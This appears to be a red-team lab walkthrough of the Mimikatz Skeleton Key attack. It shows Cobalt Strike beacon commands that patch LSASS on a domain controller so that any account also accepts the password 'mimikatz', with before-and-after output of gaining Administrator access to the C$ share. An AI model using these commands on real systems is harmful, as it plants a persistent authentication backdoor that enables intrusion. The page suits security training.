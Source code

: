 The Skeleton Key is only applicable to Domain Controllers - it patches LSASS to hijack the usual NTLM and Kerberos authentication flows and permits any user to be authenticated with the password `mimikatz` (their real passwords still work too).

Before:

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\dc-2\c$
[-] could not open \\dc-2\c$\*: 5

beacon> make_token DEV\Administrator mimikatz
[+] Impersonated DEV\bfarmer

beacon> ls \\dc-2\c$
[-] could not open \\dc-2\c$\*: 1326
```

  

Install the key:

```
beacon> run hostname
dc-2

beacon> mimikatz !misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK
```

  

After:

```
beacon> make_token DEV\Administrator mimikatz
[+] Impersonated DEV\bfarmer

beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/10/2021 14:38:44   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/10/2021 13:52:03   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     03/11/2021 12:59:29   Users
          dir     02/19/2021 13:26:27   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 448mb    fil     03/11/2021 09:19:53   pagefile.sys
```

The skeleton key cannot be removed unless the domain controller is rebooted and it can cause side effects such as replication issues.